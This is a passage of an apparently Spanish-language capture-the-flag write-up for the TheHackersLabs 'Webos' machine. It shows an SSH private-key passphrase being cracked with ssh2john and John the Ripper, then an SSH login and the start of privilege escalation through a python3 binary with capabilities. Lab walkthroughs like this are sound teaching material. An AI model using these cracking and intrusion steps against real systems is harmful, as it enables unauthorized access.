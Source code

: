 Primero, obtengamos el hash de la llave:
```bash
ssh2john id_rsa > hash
```

Ahora, usemos **JohnTheRipper** para crackearla:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
freestyle        (id_rsa)     
1g 0:00:01:46 DONE (2025-08-04 13:44) 0.009427g/s 33.03p/s 33.03c/s 33.03C/s girls..alone
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Excelente, tenemos la frase de la llave privada.

Autentiquémonos vía **SSH** usando esa llave y el **usuario webos**:
```bash
ssh -i id_rsa webos@192.168.100.10
Enter passphrase for key 'id_rsa': 
Linux TheHackersLabs-Webos 6.1.0-22-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.94-1 (2024-06-21) x86_64
...
Last login: Thu Jul 18 11:45:53 2024
webos@TheHackersLabs-Webos:~$ whoami
webos
```
Estamos dentro.

Ya podemos ver la flag del usuario:
```bash
webos@TheHackersLabs-Webos:~$ ls
python3  user.txt  webito
webos@TheHackersLabs-Webos:~$ cat user.txt
...
```

<br>

<h2 id="Python3">Escalando Privilegios Abusando de Capabilities de Binario Python3</h2>

No podemos ver qué privilegios tiene nuestro usuario, pues necesitamos su contraseña:
```bash
webos@TheHackersLabs-Webos:~$ sudo -l
[sudo] contraseña para webos: 
Lo siento, pruebe otra vez.
[sudo] contraseña para webos: 
sudo: 1 incorrect password attempt
```

Tampoco hay un grupo del que nos podamos aprovechar:
```bash
webos@TheHackersLabs-Webos:~$ id
uid=1001(webos) gid=1001(webos) grupos=1001(webos),1002(webito)
```
Recordando el binario **python3** que tiene el **usuario webos**, aparte de que el dueño es el **Root**, me parece bastante extraño que esté ahí.
